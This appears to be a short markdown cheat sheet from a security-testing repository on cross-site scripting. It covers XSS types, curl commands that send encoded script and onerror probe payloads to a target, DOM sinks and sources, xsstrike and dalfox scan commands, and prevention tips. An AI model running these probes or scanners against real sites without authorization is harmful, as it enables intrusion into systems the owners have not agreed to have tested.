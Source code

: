 # Cross‑Site Scripting (XSS) — Full

## 1) Types
- **Reflected** (query parameter)
- **Stored** (DB‑persisted input)
- **DOM‑based** (JS sinks/taint flows)

## 2) Quick Recon
```bash
curl -ks "$target/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" | grep -in "alert(1)"
curl -ks "$target/profile?name=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E" | head
```

## 3) Context Payloads
See [`payloads.md`](payloads.md) for HTML/attr/JS/URL contexts and **polyglots**.

## 4) DOM XSS Hints
- Sinks: `innerHTML`, `outerHTML`, `document.write`, `eval`, `Function`, `setTimeout(string)`
- Sources: `location`, `document.URL`, `document.referrer`, `postMessage`

## 5) Tools
```bash
xsstrike -u "$target/search?q=1" --crawl
dalfox url "$target/search?q=1"
```

## 6) Prevention (Dev)
- Output encode by **context**
- Use a **CSP** (`script-src 'self'` etc.)
- Avoid dangerous sinks; use safe templating
- Validate allow‑lists for attributes and URLs

Examples in [`prevention.md`](prevention.md).
